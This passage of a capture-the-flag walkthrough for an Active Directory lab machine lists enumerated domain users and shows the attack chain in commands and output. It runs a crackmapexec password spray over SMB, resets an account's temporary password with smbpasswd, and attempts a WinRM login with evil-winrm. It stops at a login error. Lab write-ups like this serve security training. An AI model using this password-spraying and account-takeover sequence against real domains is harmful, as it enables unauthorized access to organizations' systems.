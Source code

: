```bash
Allowed RODC Password Replication Group
Denied RODC Password Replication Group
Read-only Domain Controllers
Enterprise Read-only Domain Controllers
Cloneable Domain Controllers
Protected Users
Key Admins
Enterprise Key Admins
DnsAdmins
DnsUpdateProxy
dev
jacqueline.barnett
ashley.webb
hugh.george
leonard.dyer
connor.wilkinson
joseph.hughes
kerry.wilson
teresa.bell
caroline.robinson
ian.walker
```
Now, using crackmapexec, we will try to log in with the users from the list using the password 'BabyStart123!':

```bash
crackmapexec smb 10.10.64.243 -u users.txt -p 'BabyStart123!' 
SMB         10.10.64.243   445    BABYDC           [-]
baby.vl\caroline.robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE 
```

NICE! We found the user associated with the password. However, there's something curious... That STATUS_PASSWORD_MUST_CHANGE means that the account needs to change the password; this usually happens when you are given a temporary password.

## Explotation

To take advantage of this, we can use the 'smbpasswd' tool to change the password to something of our choosing.

```bash
smbpasswd -U BABY/caroline.robinson -r 10.10.104.152
Old SMB password:BabyStart123!
New SMB password:Star@123!
Retype new SMB password:Star@123!
```

Now, we just need to log in to the machine using evil-winrm:

```bash
evil-winrm -i 10.10.64.243 -u 'caroline.robinson' -p 'Star@123!'
```

And... OH NO!! AN ERROR!!!
